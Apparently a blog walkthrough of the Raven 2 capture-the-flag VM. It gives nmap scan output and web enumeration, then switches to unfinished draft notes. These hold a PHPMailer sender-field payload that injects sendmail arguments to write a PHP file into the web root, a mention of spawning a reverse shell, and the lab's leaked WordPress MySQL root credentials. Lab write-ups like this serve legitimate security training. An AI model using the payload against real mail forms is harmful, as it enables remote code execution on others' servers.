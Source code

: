```yaml
---
    title: Raven 2 CTF Walkthrough
    date: 2019-01-14
    excerpt: "Raven 2 CTF Write-up and Tutorial"
    tags: [ctf, cybersec, nmap, phpmailer]
---
```


Raven 2 is the sequel to the first Raven CTF by William McCann. It's intended to be a bit more difficult than Raven 1.

As usual, you can find it at [Vulnhub](https://www.vulnhub.com/entry/raven-2,269/).

## My Setup
I'll be attacking this in Kali Linux from VirtualBox on Windows. As with all the other CTFs I've done, they're on a shared NATNetwork with Kali.

**IP Range:** The IP range I have set for the NATNetwork is 10.0.2.0/24.

## Discovery
Using Nmap's built-in ping scan for this, as per usual. To avoid similar issues as Raven 1, I went ahead and added the VM as 'raven.local' to my /etc/hosts file in Kali.

Ping scanning may be unnecessary given the hosts file addition, but just to show:

```bash
root@kali:~# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-14 10:05 EST
...
MAC Address: 08:00:27:12:DB:1A (Oracle VirtualBox virtual NIC)
Nmap scan report for raven.local (10.0.2.10)
Host is up (0.00022s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.48 seconds
```

## Port Scan
This should quickly become second nature to you.

```bash
root@kali:~# nmap -p- -sV -T4 -sS raven.local
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-14 10:07 EST
Nmap scan report for raven.local (10.0.2.10)
Host is up (0.000095s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
46889/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:9A:E0:14 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.59 seconds
```

Same as last time, just SSH and a webserver.

## Tube #80
Without some idea of credentials, let's poke the webserver.

Pointing Firefox to it, it's the same fancy site as Raven 1.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/main_site.PNG" alt="">
  <figcaption>The homepage.</figcaption>
</figure>

As with most CTFs, look through the website's source code to reveal comments, javascript code, and other things. In this case, I found some links to other pages, and a wordpress installation.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven2/links.PNG" alt="">
  <figcaption>Links to other pages on the webserver.</figcaption>
</figure>

I did not find anything of note in about.html or team.html; however, I did find the first flag in service.html, much like Raven 1.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/raven1/service_html.PNG" alt="">
  <figcaption>The first flag. It's even the exact same one as Raven 1.</figcaption>
</figure>



"7eLVNgkOy\" -OQueueDirectory=/tmp -X/var/www/html/hS0Uw4wj.php MlQN4"@675I73.com

note: raven2 requires the phpmailer vuln
as well as bypassing the client-side js email validation
use it to spawn a reverse shell

grab mysql pass (can assume wp needs db)

and they used the root password for it

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');

/** MySQL hostname */
define('DB_HOST', 'localhost');

root:R@v3nSecurity

Need to go from MySQL root to local root

